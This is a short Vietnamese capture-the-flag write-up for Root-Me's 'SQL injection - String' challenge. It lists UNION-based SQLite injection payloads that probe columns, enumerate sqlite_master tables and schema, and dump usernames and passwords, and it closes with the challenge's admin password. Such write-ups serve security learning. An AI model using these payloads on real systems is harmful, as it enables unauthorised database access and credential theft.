

# Challenge: SQL injection - String
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian: 
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-String

- Vào thử thách này thì ta thấy cả trang sẽ có 2 form, 1 là form tìm kiếm, 2 là form đăng nhập 

- Vì đề hỏi là password của admin, và nó có 2 form nên ta thử xem xét lỗi injection kết hợp union ở form tìm kiếm, kiểm tra ngay (nhập `abc '`) thì ta thấy thật sự có lỗi này

- Thử với `abc' order by 3 --`

- Thử với `abc' order by 2 --`

- Thử với `abc' union select 1,2 --` để xem các cột hiển thị trên trình duyệt

- Ta biết rằng cơ sở dữ liệu của web là sqlite3, thông qua thông báo lỗi. Ta tham khảo các lệnh sqlite 3 ở đây 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

- Thử với `abc' union select 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --` để show ra các table có trong csdl

--> Ta thấy csdl gồm có 2 tables: users và news

- Thử với `abc' union select 1,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' --` để show ra các cột có trong bảng user

- Lấy username password với input là `abc' union select username, password from users -- `

- Lấy password của admin submit, và vượt qua thử thách
## Kết quả password là `c4K04dtIaJsuWdi`